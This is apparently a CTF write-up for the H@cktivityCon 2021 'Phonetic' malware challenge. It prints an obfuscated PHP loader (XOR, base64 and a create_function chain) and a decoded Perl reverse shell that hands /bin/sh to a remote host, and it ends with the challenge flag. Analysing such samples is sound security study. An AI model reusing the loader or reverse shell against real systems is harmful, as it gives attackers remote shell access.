 # Placeholder

# Phonetic - 362pt
--------------------------------------
## Topic sumary

This problem gives us file `Phonetic`, you can download it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic) <br>
Open it with notepad++
```php 
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = "LmQ9AT8aND16c2AcMh0lCS9BDFtTATklDzA.......";/*a fucking string =))) */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/
```
---------------------------------------------------------
WTF? are you kidding me =))) <br>
![](https://media.giphy.com/media/aZ3LDBs1ExsE8/giphy.gif)

I run the loops separately. it gives readable results :V
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
echo $fsPwhnfn8423; // base64_decode
```
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

echo $oZjuNUpA325; // strrev
```
Continue...
```php
echo strrev('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
//create_function
```
Put together we get
```php
create_function("",base64_decode(deGRi(base64_decode(/*fuckin string*/), "tVEwfwrN302")));
```
Run it and we get another php file =))), it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic_decode.php)<br>
I'm stuck here.... <br>
After a few minutes (actually hours .-.). I found some base64 strings in source code <br>
A string after decryption, it looks like this
```shell
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```
Do you see it?
```shell
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
```
![](https://media.giphy.com/media/JqDeI2yjpSRgdh35oe/giphy.gif)

Decode it~~~<br>
`
flag{9b5c4313d12958354be6284fcd63dd26}
`
